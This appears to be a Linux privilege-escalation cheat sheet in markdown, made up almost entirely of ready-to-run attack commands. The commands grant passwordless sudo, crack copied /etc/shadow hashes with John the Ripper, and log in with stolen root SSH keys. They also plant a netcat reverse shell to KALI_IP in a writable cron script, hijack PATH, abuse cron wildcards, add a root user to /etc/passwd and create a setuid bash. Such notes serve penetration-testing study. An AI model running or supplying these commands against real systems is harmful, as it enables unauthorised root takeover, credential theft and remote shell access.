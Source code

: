 ```shell
echo "`whoami` ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
## readable /etc/shadow
```shell
# 1 Copy /etc/passwd and /etc/shadow to files "passwd.john" and "shadow.john"

# 2 Unshadow
unshadow ./passwd.john ./shadow.john > unshadowed.john

# 3 Crack
john ./unshadowed.john --wordlist=/usr/share/wordlists/rockyou.txt
```
## readable /root ssh keys
```shell
ssh -i root_id_rsa root@`tip`
```
## writable cron script

```shell
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc KALI_IP 443 >/tmp/f" >> user_backups.sh
cat user_backups.sh
```
## writable /etc/crontab
### A Replace script
```shell
* * * * * root /tmp/malicious_script.sh
```
### B Writeable Path is in PATH
***For example, if backup.sh uses "tar", we can modify the PATH to have our "tar" run***
```shell
# 1 Create our "tar" in the writeable path Here, we can write in /dev/shm
echo '/bin/bash' > /tmp/tar
chmod +x /tmp/tar

# 2 modify PATH
export PATH=/tmp:$PATH
* * * * * root backup.sh # (backup.sh uses tar command inside it for example)

# Can replace with any payload i.e reverse shell, add root user, copy of bash etc
```
### C Wildcards used
***If the cron job executes a command with wildcards (e.g., `tar -cvf /tmp/backup.tar *`), you can exploit this by creating malicious files.***
```shell
# 1 After cding into the writeable directory 


# 2 Create the payload
echo '#!/bin/bash' > /tmp/malicious.sh
echo "" >> /tmp/malicious.sh


# A add root user
echo 'echo "r00t:ShuKpZV7v9akI:0:0:root:/root:/bin/bash" >> /etc/passwd' >> /tmp/malicious.sh

# B root bash
echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' > /tmp/malicious.sh
```